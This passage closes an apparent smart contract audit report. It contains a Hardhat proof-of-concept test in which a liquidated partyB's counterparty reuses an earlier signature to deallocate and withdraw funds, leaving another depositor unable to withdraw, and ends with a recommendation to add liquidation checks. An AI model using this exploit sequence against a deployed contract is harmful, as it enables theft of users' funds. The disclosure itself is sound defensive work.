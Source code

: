 ```ts
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyA(
    this.user.signer.address,
    [1]
  );

  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("after liquidation of partyA: partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // deallocate partyB with previous signature (before partyA's position is liquidated)
  // (current partyB upnl is -1100)
  await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user.getAddress(), previousSig);
  // alternatively use transferAllocation
  //await context.accountFacet.connect(this.hedger.signer).transferAllocation(decimal(1530), this.user.getAddress(), this.user2.getAddress(), previousSig);
  //await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user2.getAddress(), previousSig);

  var balance = await context.viewFacet.balanceOf(this.hedger.getAddress());
  console.log("PartyB balance to withdraw: " + balance/1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  await time.increase(300);
  await context.accountFacet.connect(this.hedger.signer).withdraw(balance);

  var balance = await context.collateral.balanceOf(this.hedger.getAddress());
  console.log("Withdrawn partyB balance: " + balance/1e18);
  var balance = await context.collateral.balanceOf(context.diamond);
  console.log("Protocol balance: " + balance/1e18 + " (less than unsuspected user deposited)");

  // try to withdraw unsuspected user's balance
  await expect(context.accountFacet.connect(this.user2.signer).withdraw(this.protocol_allocated))
    .to.be.revertedWith("ERC20: transfer amount exceeds balance");

  console.log("User who only deposited 1000 is unable to withdraw his deposit because partyB has stolen his funds");

});
```

## Tool used

Manual Review

## Recommendation

Add require's (or modifiers) to check that neither partyA nor partyB of the quote are liquidated in the following functions:
1. `deallocateForPartyB`
2. `transferAllocation`
3. `requestToClosePosition`
4. `fillCloseRequest`
